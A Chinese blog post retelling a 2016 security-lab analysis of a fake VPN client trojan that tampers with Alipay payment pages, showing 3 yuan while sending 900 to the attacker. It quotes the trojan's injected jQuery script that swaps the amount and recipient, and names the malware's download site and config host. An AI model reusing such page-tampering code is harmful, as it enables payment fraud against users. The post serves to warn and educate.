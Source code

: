 ```yaml
---  
layout: post  
title: "VPN便宜卖了？木马抢钱计！"
date: 2016-05-24
categories:  传媒信安     
comments: true
description:  520继“刷我的卡“之后，支付宝也沦陷了！！！转账3元却转走1900元，也是红红火火恍恍惚惚啊~~~
tags:
    - 传媒信安
---  
```

520继“[刷我的卡](http://sec.cuc.edu.cn/CUCIS/post/bank-card)”之后，支付宝也被坑了！！！转账3元却转走1900元，也是红红火火恍恍惚惚啊~~~

事件源于52pojie上的一篇名为“支付宝转3块扣1900,这是咋回事”的贴子。

![](http://127.0.0.1:4000//resources/images/aa1.png) 

（咳咳，这里小编说两句题外话。。帖子邪性得很，在站内无论按全文搜索，还是按标题搜索都没搜索到，小编还纳闷难道是被删帖了？？？却在google上关键字“支付宝转3块扣1900,这是咋回事”一搜就是头条！！！呵呵了，看来不是小编有问题，就是网站搜索功能太强大啊~~~360小编原话说52pojie“熟悉网络安全、破解逆向的朋友一定对于52pojie这个网站不会感到陌生,它是我国为数不多的关注计算机安全的技术网站。”小编孤陋寡闻了，真的没听说过。。。小编太渣。。。）

![](http://127.0.0.1:4000//resources/images/aa2.jpg) 

咳咳，再说回来，帖子说:楼主在网上买VPN代理，想科学上网，用支付宝付款时显示3块钱,但输完支付宝验证码后却被扣了1900元。

小编想说楼主你不是随便看了个牛皮癣广告就中招了吧？？？比如这样。。。

![](http://127.0.0.1:4000//resources/images/aa3.jpg) 

这么便宜！！！小编都有点心动了呢！！！

呃呃~~~但是且不管楼主 是通过什么途径中招的。来看看万能的360天眼实验室是怎么破解的吧！！！

360天眼实验室发挥了其强大的人肉功能，博主 2016-5-18 14:46发的帖子，360天眼实验室在2016-05-20 14:29:07就做出了回应，详细披露了漏洞利用的过程和攻击团伙的各种信息。。。

![](http://127.0.0.1:4000//resources/images/aa4.png) 


不得不说，360天眼实验室真是

![](http://127.0.0.1:4000//resources/images/aa5.gif) 

根据帖子中的描述,访问网站hxxp://cctv168.cc/,在浏览器中输入网址,回车后进入该网站:（当然，小编也尝试访问了一下，然而已经什么都看不到了。。。）

![](http://127.0.0.1:4000//resources/images/aa6.png) 


点击“立即下载客户端”，运行VPN客户端程序,样本运行后,向用户展示界面如下界面:

![](http://127.0.0.1:4000//resources/images/aa7.png) 

当然,只是不管你在何时以何种姿势点击连接,都会提示您会员已经过期。没办法,只有点击购物车按钮,购买会员才能使用。

在购买界面,给出的应付金额是3元,3块钱你买不了吃亏，买不了上当，当然闭着眼就点击了同意开通。

![](http://127.0.0.1:4000//resources/images/aa8.png) 

事实上点击了同意开通后,样本执行了如下不为用户所知的动作:

1.访问http://463038264.lofter.com网站,读取到包括每次转账的金额(这里为每次转900元)、转账时显示的支付宝姓名(这里为长江电子商务有限公司)以及支付宝账号(lrh103272@163.com)等配置信息。

![](http://127.0.0.1:4000//resources/images/aa9.png) 

2.带着http://www.alipay.com参数启动IEXPLORE.EXE,使用易语言(恶意代码作者的日常之选)封装的DOM类库,查找当前浏览器是不是正在进行付款操作。

![](http://127.0.0.1:4000//resources/images/aa10.png) 

3.如果当前正在进行付款操作,根据付款的流程,修改网页的显示。

使用易语言的类成员方法(0x4040DB处),修改页面显示内容。此处方法有两个参数,参数一为“exescript”,参数二为要运行的脚本代码。将页面上显示的金额信息与付款金额填写为下图样式。至此,细心的人应该发现,软件能够帮你把金额和收款人自动填写上,当然也可以悄无声息地修改信息。

![](http://127.0.0.1:4000//resources/images/aa11.png) 

参数二的脚本内容为:


```
seajs.use("jquery",function($)

{$('#reason').val('USERvpn111 MCZ2016254525');

$('#ipt-search-key').val('lrh103272@163.com');

vara1=$('#amount').clone();

$('#amount').css('display','none');

$('#amunt').val('900');a1.val('3');

a1.attr('id','amount1');

a1.removeAttr('name');

a1.insertAfter($('label[for="amount"]'));

}

);
```
![](http://127.0.0.1:4000//resources/images/aa12.png) 


4.在上一步的操作中,支付宝实际支付的金额已经被修改成了900元,只不过因为软件作者通过脚本将显示的数字改成3元。在支付宝付款过程中,单击下一步后,正常的页面应该是这样的:

![](http://127.0.0.1:4000//resources/images/aa13.png) 

而在软件的帮忙下通过0x4046D6处函数的调用将页面做了瞒天过海式的修改:

一、将付款金额改成3元,

二、将收款人修改成"长江电子商务有限公司",在短短不到一秒钟的时间里,让人眼不见心不烦,提升了购物体验。

![](http://127.0.0.1:4000//resources/images/aa14.png) 
修改页面的代码:

![](http://127.0.0.1:4000//resources/images/aa15.png) 

5.在付款的最后一步,使用与第四步同样的障眼手法。被修改之前:

![](http://127.0.0.1:4000//resources/images/aaa16.png) 

![](http://127.0.0.1:4000//resources/images/aa16.png) 

修改后:

![](http://127.0.0.1:4000//resources/images/aaa17.png) 

6.最后,真实的交易数据被发送到服务器。事已至此,虽然肉眼已经无法再辨别出网页显示其实已经被篡改过,但从网络流量中发出的付款金额为900元。

![](http://127.0.0.1:4000//resources/images/aa17.png) 

此时,看起来只支持了3元的一次完整购买过程就结束了。待事后事主看支付宝日志记录,才会发现转出的是900元,而不是3元。。。

但是有什么用呢~~~

![](http://127.0.0.1:4000//resources/images/aa18.jpg) 

然后，360天眼实验室对该木马进行了溯源！！样本中的配置文件来自于http://463038264.lofter.com网站,网页上出现了两个可疑的号码,463038264和2953766158,确认两个号码是QQ号。然后发现了木马制造者的小号：

![](http://127.0.0.1:4000//resources/images/aa19.png) 

![](http://127.0.0.1:4000//resources/images/aaa20.png) 

然后又挖到了大号。。。

![](http://127.0.0.1:4000//resources/images/aa20.png) 

![](http://127.0.0.1:4000//resources/images/aa21.png) 

公司。。。

![](http://127.0.0.1:4000//resources/images/aa22.png) 

淘宝店铺。。。

![](http://127.0.0.1:4000//resources/images/aa23.png) 

真实信息。。。

![](http://127.0.0.1:4000//resources/images/aa24.png) 

呃。。。小哥。。。我都有点心疼你了。。。

![](http://127.0.0.1:4000//resources/images/aa25.jpg) 

但是自作孽不可活啊~~~小编也就心疼你一秒！！！

最后小编不得不说，现今网络上到处是坑，一不小心就挖个坑把自己埋了。

![](http://127.0.0.1:4000//resources/images/aa26.jpg) 

**各位看客请千万注意！！！**

**不要安装和使用来路不明的软件！！！**

**电脑上安装杀毒软件是很必要的！！！**

**支付安全小技巧：电脑下单时，使用手机扫码支付，支付前看清楚订单详情，避免单点沦陷，毕竟木马要同时劫持两台不相关设备（电脑和手机）难度就大多了！！！**


![](http://127.0.0.1:4000//resources/images/aa27.jpg) 

参考文献：

360安全播报：[眼见未必实​之付款篡改支付宝木马分析](http://bobao.360.cn/learning/detail/2876.html)
